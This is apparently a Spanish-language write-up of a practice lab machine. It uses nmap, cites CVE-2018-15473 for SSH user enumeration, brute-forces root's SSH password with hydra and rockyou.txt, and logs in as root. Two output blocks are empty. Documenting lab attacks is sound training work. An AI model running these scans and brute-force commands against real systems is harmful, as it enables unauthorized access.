 #ssh #hydra

![](../../../Images/Pasted%20image%2020241008071626.png)
# Enumeración

## Nmap

El escaneo de **nmap** nos enseña la existencia de un servicio SSH.

```
> nmap --open --min-rate 10000 -Pn -n -oN scans/allTCPPorts $target

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 12:47 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000013s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
MAC Address: 02:42:AC:11:00:02 (Unknown)
```

```
> nmap -oN scans/targetedTCPPorts -sCV $target -p 22,80                       
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-08 12:47 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000049s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.7 (protocol 2.0)
| ssh-hostkey:
|   2048 1a:cb:5e:a3:3d:d1:da:c0:ed:2a:61:7f:73:79:46:ce (RSA)
|   256 54:9e:53:23:57:fc:60:1e:c0:41:cb:f3:85:32:01:fc (ECDSA)
|_  256 4b:15:7e:7b:b3:07:54:3d:74:ad:e0:94:78:0c:94:93 (ED25519)
MAC Address: 02:42:AC:11:00:02 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 0.93 seconds
```

## SSH (22 TCP Port)

Investigando el servicio vemos que es una vesiñon antigua que tiene una vulnerabilidad numerada como [CVE-2018-15473](https://nvd.nist.gov/vuln/detail/cve-2018-15473) el cual nos permite una enumeración de usuarios. Con este [PoC](https://github.com/Sait-Nuri/CVE-2018-15473) y una lista de usuarios podemos conseguir que usuarios existen en el sistema



```

```



```

```

Ahora, con el nombre de usuario encontrado podemos hacer fuerza bruta contra el servicio SSH con **hydra**.

```
> hydra -l root -P /usr/share/wordlists/rockyou.txt 172.17.0.2 ssh

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-10-08 12:54:29
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: root   password: estrella
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-10-08 12:54:31 
```

Conseguimos acceder al sistema mediante SSH directament con el usuario ``root`` y todos los privilegios del sistema.

```
> ssh root@172.17.0.2

The authenticity of host '172.17.0.2 (172.17.0.2)' can't be established.
ED25519 key fingerprint is SHA256:U6y+etRI+fVmMxDTwFTSDrZCoIl2xG/Ur/6R0cQMamQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '172.17.0.2' (ED25519) to the list of known hosts.
root@172.17.0.2's password:

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
root@347cd6f2e506:~# whoami
root
```